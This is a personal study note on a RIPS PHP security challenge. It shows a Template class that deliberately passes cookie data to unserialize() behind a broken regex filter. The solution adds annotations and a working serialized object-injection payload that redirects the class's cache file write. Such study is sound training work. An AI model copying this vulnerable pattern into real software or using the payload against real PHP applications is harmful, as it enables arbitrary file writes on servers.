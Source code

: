 :PROPERTIES:
:ID:        816dbb29-5bdb-481d-aa88-9ed5c1bec518
:ROAM_REFS: https://twitter.com/ripstech/status/1169997998924980224
:END:
#+title: rips-58
#+filetags: :vcdb:php:

* Description

* Code
#+begin_src php
class Template {
    public $cacheFile = '/tmp/cachefile';
    public $template = '<div>Welcome back %s</div>';

    public function __construct($data = null) {
        $data = $this->loadData($data);
        $this->render($data);
    }

    public function loadData($data) {
        if(substr($data, 0, 2) !== 'O:'
           && !preg_match('/O:\d:\/', $data)) {
            return unserialize($data);
        }
        return [];
    }

    public function createCache($file = null, $tpl = null) {
        $file = $file ?? $this->cacheFile;
        $tpl= $tpl ?? $this->template;
        file_put_contents($file, $tpl);
    }

    public function render($data) {
        echo sprintf(
            $this->template,
            htmlspecialchars($data['name'])
        );
    }

    public function __destruct() {
        $this->createCache();
    }
}

new Template($_COOKIE['data']);

#+end_src

* Solution
#+begin_src php
class Template {
    public $cacheFile = '/tmp/cachefile';
    public $template = '<div>Welcome back %s</div>';

    public function __construct($data = null) {
        $data = $this->loadData($data);                   // 2) user input $data
        $this->render($data);
    }

    public function loadData($data) {
        if(substr($data, 0, 2) !== 'O:'
           && !preg_match('/O:\d:\/', $data)) {           // 3) this can be bypassed with ['name' => 'f00', 'obj' => new Template(...)]
            return unserialize($data);                    // 4) user controlled data into unserialize
        }
        return [];
    }

    public function createCache($file = null, $tpl = null) {
        $file = $file ?? $this->cacheFile;
        $tpl= $tpl ?? $this->template;
        file_put_contents($file, $tpl);
    }

    public function render($data) {
        echo sprintf(
            $this->template,
            htmlspecialchars($data['name'])
        );
    }

    public function __destruct() {
        $this->createCache();
    }
}

new Template($_COOKIE['data']);     // 1) user input from cookie


// example:
$x = 'a:1:{s:4:"name";s:3:"f00";}';
//$o = ['name' => 'f00', 'obj' => new Template($x)];
//echo serialize($o);
$payload = 'a:2:{s:4:"name";s:3:"f00";s:3:"obj";O:8:"Template":2:{s:9:"cacheFile";s:15:"/tmp/cachefile2";s:8:"template";s:26:"<div>Welcome back %s</div>";}}';
//                                                                                                    ^
//                                                                                                    |
//                                                                                            change file name

var_dump(preg_match('/O:\d\/', 'a:2:{s:4:"name";s:3:"f00";s:3:"obj";O:8:"Template":2:{s:9:"cacheFile";s:15:"/tmp/cachefile2";s:8:"template";s:26:"<div>Welcome back %s</div>";}}'));
//                        ^
//                        |
// PHP Warning:  preg_match(): No ending delimiter '/' found in php shell code on line 1
// bool(false)

var_dump(preg_match('/O:\d/', 'a:2:{s:4:"name";s:3:"f00";s:3:"obj";O:8:"Template":2:{s:9:"cacheFile";s:15:"/tmp/cachefile2";s:8:"template";s:26:"<div>Welcome back %s</div>";}}'));
// int(1)

#+end_src